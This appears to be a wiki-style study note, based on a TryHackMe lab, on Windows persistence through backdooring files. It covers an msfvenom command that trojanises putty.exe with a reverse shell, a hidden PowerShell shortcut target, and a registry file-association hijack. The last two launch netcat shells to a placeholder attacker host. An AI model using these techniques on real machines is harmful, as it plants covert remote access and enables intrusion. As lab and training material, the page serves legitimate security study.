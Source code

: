 # Windows Persistence - Backdooring Files

## Injecting Executables Files

Look for shortcuts and executables that potentially used frequently; changing the properties of the file the user interacts by downloading and configure to execute an additional payload silently by adding an extra thread in the binary. Check to if would work on user's end also.

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=$ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

This is not that sneaky, but effective.

## Shortcut File Target Injection

Of Shortcut's properties change the "Target:" to `powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1` with `backdoor.ps1` be:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
# Path to original execuable below to create illusion th same process will run when shortcut is used
C:\Windows\Systenm32...
```

Make sure to "Change Icon..."  to revert any visble changes to the Icon display ni the GUI after editing this Shortcut.

## Hijacking File Associations

Default operation system file associations are stored as key in [Registry](Windows-Registry). For each file type a key is store under `HKLM\Software\Classes\` . For `.txt` stored `HKLM\Software\Classes\.txt`  subkey would look like the table below:

Name | Type | Data
--- | --- | ---
(Default) | REG_SZ | txtfile
Content Type | REG_SZ | text/plain
Percieved Type | REG_SZ | text

The Programmatic ID (ProgID) is is identifier to a program installed on the system; the `txtfile` of the above table is the ProgID. Most ProgID entries will have a subkey under `shell\open\command` hwre default command to run for file with that extension are specifed: `HKLM\Software\Classes\txtfile\shell\open\command`. This subkey will be `(Default) | REG_EXP... | %SystemRoot%\system32\NOTEPAD.EXE %1`. To backdoor this create a script:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
# The $DEFAULT = %SystemRoot%\system32\THISEXEHERE.EXE %1 of HKLM\Software\Classes\{File Type Targeted}\shell\open\command
C:\Windows\Systenm32\$DEFAULT.exe $args[0]
```

## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)